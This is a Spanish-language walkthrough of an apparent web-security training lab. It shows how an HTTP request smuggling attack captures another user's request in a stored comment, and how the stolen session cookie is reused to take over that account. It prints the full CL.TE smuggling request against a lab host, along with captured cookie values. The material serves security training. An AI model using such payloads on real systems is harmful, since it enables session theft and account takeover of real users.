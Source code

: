 Continuamos con el laboratorio anterior, donde logramos capturar una petición legítima del siguiente usuario mediante un ataque de HTTP request smuggling. En esta parte, analizamos el contenido del comentario almacenado para extraer la cookie de sesión de la víctima.

Una vez identificamos el valor de la ‘**cookie session**‘ en la petición capturada, la utilizamos para suplantar la identidad del usuario y acceder a su cuenta. Este paso demuestra cómo una simple desincronización entre servidores puede derivar en la total toma de control de una cuenta ajena.

Este ejercicio refuerza la gravedad de las vulnerabilidades de tipo request smuggling y cómo pueden comprometer directamente la privacidad e integridad de los usuarios.

Solucion
ahora ya una vez configurado todo el payload en vamos a cambiar el coment en el csrf hasta el ultimo de esta manera quedaria el payloda y en la seccion de comentarios deberias de ver algo asi
![Pasted_image_20250807221729.png](/Imagenes/Pasted_image_20250807221729.png)
payload (POST / HTTP/1.1

Host: 0a3e0063039f125e80211c3d00870036.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 286

Transfer-Encoding: chunked



0



POST /post/comment HTTP/1.1

Content-Type: application/x-www-form-urlencoded

Cookie: session=tIa5AHKbdB1ecVxlgPyGDgocKZ9PSLFf

Content-Length: 950



csrf=MQz6eTcTy7X1z7RI83NowKPgY689AC5l&postId=1&name=testing&email=omar%40omar.com&website=https%3A%2F%2Fcallate.com&comment=prueba)

entonces copiamos la cookie de session
![Pasted_image_20250807221842.png](/Imagenes/Pasted_image_20250807221842.png)
y modificamos la cookie de session en el login
![Pasted_image_20250807221953.png](/Imagenes/Pasted_image_20250807221953.png)
R9UMrQYOdIskkgFNXMLfJOOIXa0w9S1w 
esperamos y ya esta
![Pasted_image_20250807225421.png](/Imagenes/Pasted_image_20250807225421.png)
